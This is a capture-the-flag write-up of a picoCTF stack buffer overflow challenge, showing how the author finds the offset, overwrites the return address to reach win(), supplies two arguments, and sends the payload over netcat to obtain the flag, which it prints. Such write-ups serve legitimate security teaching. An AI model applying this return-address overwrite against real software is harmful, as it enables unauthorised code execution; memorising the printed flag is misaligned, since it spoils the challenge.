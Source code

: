 # URL
https://play.picoctf.org/practice/challenge/259?category=6&page=2

# Challenge
Author: Sanjay C / Palash Oswal

Description
Control the return address and arguments
Additional details will be available after launching your challenge instance.

# Work:
* To start us off, let's create a pattern

```
from pwn import *
# Generate a cyclic pattern of 200 bytes
pattern = cyclic(200)
print(pattern)
>>> print(cyclic(200))
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab68d565-c115-40ee-8ce4-99b3ff61a1e3" />

* EIP = return address and we can see that's being overrun @ address = 0x62616164

```
>>> from pwn import *
>>> print(cyclic_find(0x62616164))
112 
```

* 112 = our offset

```
pwndbg> print &win
$1 = (<text variable, no debug info> *) 0x8049296 <win> 
```

* Knowing the address of win = 0x8049296

```
python3
>>> 'A'*112
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x8049296)
b'\x96\x92\x04\x08'
>>> print(cyclic(200))
```

* Submit this payload:

```
pwngdb> r <<< $echo("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08")
```

<img width="1863" height="753" alt="image" src="https://github.com/user-attachments/assets/8457c79f-e596-4ca2-a64f-23dd69d89f4b" />

* So the command above worked since we are in the win() function now

* Now all we gotta do is pad 4 bytes and add the two arguments

<img width="362" height="185" alt="image" src="https://github.com/user-attachments/assets/2dfec480-3012-45c5-87f1-c19af6956796" />

* We NEED these arguments or else the function won't continue

* The 4 bytes are dummy bytes, those 4 bytes are the saved return address; however, we don't want to return, instead we want to continue forward

```
+--------------------+
|  return address    |  <-- saved EIP (4 bytes)   ← this is where QQQQ goes
+--------------------+
|  arg1              |  <-- first argument
+--------------------+
|  arg2              |  <-- second argument
+--------------------+
```

* 4 bytes = QQQQ

```
>>> p32(0xCAFEF00D)
b'\r\xf0\xfe\xca'
```

```
>>> p32(0xF00DF00D)
b'\r\xf0\r\xf0'
```

```
┌──(kali㉿kali)-[~/picoCTF/binaryexploitation]
└─$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08QQQQ\x0d\xf0\xfe\xca\x0d\xf0\x0d\xf0'" | nc saturn.picoctf.net 64366
Please enter your string: 
�'�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�QQQQ
picoCTF{argum3nt5_4_d4yZ_59cd5643}       
```

* WOOHOOOOOOOOOOO WE FOUND THE FLAG!!!!
  
